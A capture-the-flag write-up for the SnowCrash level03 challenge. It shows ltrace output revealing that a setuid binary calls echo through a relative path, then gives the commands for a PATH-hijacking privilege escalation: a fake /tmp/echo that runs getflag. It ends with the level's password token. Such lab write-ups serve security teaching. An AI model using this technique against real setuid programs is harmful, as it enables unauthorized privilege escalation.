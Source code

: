 ```
    level03@SnowCrash:~$ ls
    level03
```


```
    level03@SnowCrash:~$ ltrace ./level03 
    __libc_start_main(0x80484a4, 1, 0xbffff804, 0x8048510, 0x8048580 <unfinished ...>
    getegid()                                  = 2003
    geteuid()                                  = 2003
    setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
    setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
    system("/usr/bin/env echo Exploit me"Exploit me)
    <unfinished ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                     = 0
    +++ exited (status 0) +++
```

as we can see level03 script use a non absolute path to echo, so we can exploit that by adding our own echo to PATH variable where we can use getflag instead of echo
```
    ls -l /
```
we have write permission in tmp directory

```
    echo "/bin/getflag" > /tmp/echo
    chmod +x /tmp/echo
    export PATH=/tmp:$PATH
```
then we run our executable

```
    level03@SnowCrash:~$ ./level03 
    Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

```
    su level04
    password: qi0maab88jeaj46qoumi7maus
```